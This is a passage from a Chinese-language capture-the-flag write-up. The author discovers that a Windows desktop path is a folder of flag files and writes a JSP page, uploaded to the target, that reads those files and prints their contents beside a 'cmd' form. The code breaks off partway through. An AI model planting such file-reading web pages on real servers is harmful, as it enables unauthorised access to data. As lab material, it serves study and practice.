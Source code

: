 #### 4.9 重新进入`C:/Users/Administrator/Desktop/`找找线索

然后tm发现`C:/Users/Administrator/Desktop/`是个文件夹！！

不是个文件！！

里面有个文件`C:/Users/Administrator/Desktop/flags/2 for the price of 1.txt`

我tm直呼离谱

重写jsp：

index.jsp
```jsp
<span style="color: #000000;"><FORM METHOD=GET ACTION='index.jsp'>

<INPUT name='cmd' type=text>

<INPUT type=submit value='Run'>

</FORM>

<%@ page import="java.io.File" %><%@ page import="java.io.FileReader" %>

<%
    String output1 = "";
    try {
        File file1 = new File("C:/Users/Administrator/Desktop/flags/2 for the price of 1.txt");
        FileReader fileReader = new FileReader(file1);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output1 += (char) nowI;
        }
    } catch (Throwable e) {
        output1 = e.toString();
    }

    String output2 = "";
    try {
        File file2 = new File("C:/Users/All Users/Desktop/flags");
        FileReader fileReader = new FileReader(file2);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output2 += (char) nowI;
        }
    } catch (Throwable e) {
        output2 = e.toString();
    }

    String output4 = "";
    try {
        File file4 = new File("C:/Users/Default/Desktop/flags");
        FileReader fileReader = new FileReader(file4);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output4 += (char) nowI;
        }
```